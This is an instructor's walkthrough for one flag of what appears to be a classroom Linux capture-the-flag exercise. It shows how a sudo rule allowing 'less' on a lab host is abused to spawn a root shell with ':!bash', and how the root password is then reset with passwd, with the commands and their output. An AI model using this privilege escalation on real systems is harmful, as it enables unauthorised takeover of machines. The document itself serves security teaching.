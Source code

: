 

#### Flag_7.

`Find an exploit to gain a root shell. Login as the root user.`

- Remind the students about the `less` vulnerability they learned at the end of our first Linux week.

- Display the `sudo` permissions for sysadmin:

    ```bash
    sysadmin:~\ $ sudo -l
    [sudo] password for sysadmin:
    Matching Defaults entries for sysadmin on scavenger-hunt:
        env_reset, exempt_group=sudo, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User sysadmin may run the following commands on
            scavenger-hunt:
        (ALL : ALL) /usr/bin/less
    ```

- Point out that you now have the ability to run `less` with `sudo`.

    - It is always a good idea to check what sudo privileges they may have on a system when doing this kind of work.

- Demonstrate this exploit and drop into a root shell.

    - Run: `touch file && sudo less file`

    - Once inside `less` type `:` then `!bash` and hit enter.

        ```bash
        sysadmin:~\ $ touch file && sudo less file
        root:~\ $
        ```

- Explain that because you now have a root shell, you can change the password for the root user and then login as root.

    - Run: `passwd`

    ```bash
    root:~\ $ passwd
    Enter new UNIX password:
    Retype new UNIX password:
    passwd: password updated successfully
    ```

- Exit back into your `less` shell:

    - Run `exit`.

    ```bash
    root:~\ $ exit
    exit
    ```
